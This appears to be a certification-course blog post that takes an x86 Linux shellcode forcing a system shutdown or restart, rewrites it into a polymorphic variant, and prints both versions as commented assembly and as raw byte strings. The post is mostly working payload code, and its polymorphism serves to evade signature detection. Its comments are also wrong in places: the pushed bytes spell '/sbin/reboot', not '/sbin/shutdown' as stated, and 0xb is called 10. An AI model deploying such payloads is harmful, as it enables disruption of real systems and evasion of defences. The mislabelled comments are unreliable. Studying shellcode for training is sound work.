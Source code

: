 ```yaml
---
layout: post
title: SLAE Exercise 6 - Polymorphic Shellcode Part 3 Shutdown
subtitle: Polymorphic Shellcode Part 3
tags: [SLAE]
---
```


Overview
======

The final chosen shellcode from shell-storm is the 'shutdown' shellcode. This can be found [here](http://shell-storm.org/shellcode/files/shellcode-831.php). This shellcode shuts down the system it is ran on, by utilising the 'execve' syscall with the 'shutdown' command found within sbin. 

The original code can be seen fully commented below:

```
global _start			

section .text
_start:

;int execve(const char *filename, char *const argv[],char *const envp[]);

xor eax, eax	; clear eax
push eax	; push eax to stack (0)
push 0x746f6f62	; push /sbin/shutdown to stack
push 0x65722f6e ;
push 0x6962732f ;
mov ebx, esp	; stack pointer to ebx pointing to /sbin/shutdown
push eax	; push eax to stack (0)
push word 0x662d 	; pushw - push '-f' to stack
mov esi, esp	; move stack pointer to esi pointing to -f on the stack
push eax	; push eax to stack (0)
push esi	; push esi to stack, pointer to -f
push ebx	; push ebx, /sbin/shutdown
mov ecx, esp	; put stack pointer into ecx for struct parameter
mov al, 0xb	; move 10 to eax for the execve syscall
int 0x80	;interupt to syscall
	
```

Using various techniques, this code was altered to create a polymorphic version of it. This code can be seen below:

```
global _start			

section .text
_start:

;int execve(const char *filename, char *const argv[],char *const envp[]);

xor edx, edx   ; clearing the edx register
push edx       ; push edx to stack (0)

mov eax, 0x746f6f62        ; move /sbin/shutdown to eax and push eax bit by bit
push eax
mov eax, 0x65722f6e
push eax
mov eax, 0x6962732f
push eax
mov ebx, esp   ; stack pointer to ebx pointing to /sbin/shutdown
push edx       ; push edx to stack (0)

push word 0x662d ; pushw - push '-f' to stack
mov ecx, esp   ; move stack pointer to esi pointing to -f on the stack
push edx       ; push edx to stack (0)
push ecx       ; push ecx to stack, pointer to -f
push ebx       ; push ebx, /sbin/shutdown
mov ecx, esp   ; put stack pointer into ecx for struct parameter

mul edx	       ; edx (0) * ax, clearing eax register
mov al, 0xb    ; move 10 to eax for the execve syscall
int 0x80       ; interupt to syscall
```

Again, with this shellcode, it was a bit more difficult to rewrite it as was done with the first shellcode, so other techniques were used to make this code polymorphic. Due to this however, the code was bloated a bit. Different techniques were used to change this shellcode, including changing what registers were used, pushing data to the stack using registers and clearing registers differently. 

When compiled and the extracted, the shellcode appears as follows:

Original

```
"\x31\xc0\x50\x68\x62\x6f\x6f\x74\x68\x6e\x2f\x72\x65\x68\x2f\x73\x62\x69\x89\xe3\x50\x66\x68\x2d\x66\x89\xe6\x50\x56\x53\x89\xe1\xb0\x0b\xcd\x80"
```

**Polymorphic**

```
"\x31\xd2\x52\xb8\x62\x6f\x6f\x74\x50\xb8\x6e\x2f\x72\x65\x50\xb8\x2f\x73\x62\x69\x50\x89\xe3\x52\x66\x68\x2d\x66\x89\xe1\x52\x51\x53\x89\xe1\xf7\xe2\xb0\x0b\xcd\x80"
```

As can be seen, the polymorphic shellcode greatly varies from the original and is less than 150% of the size of the original. 


This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert Certification:

http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert

Student ID: 1092
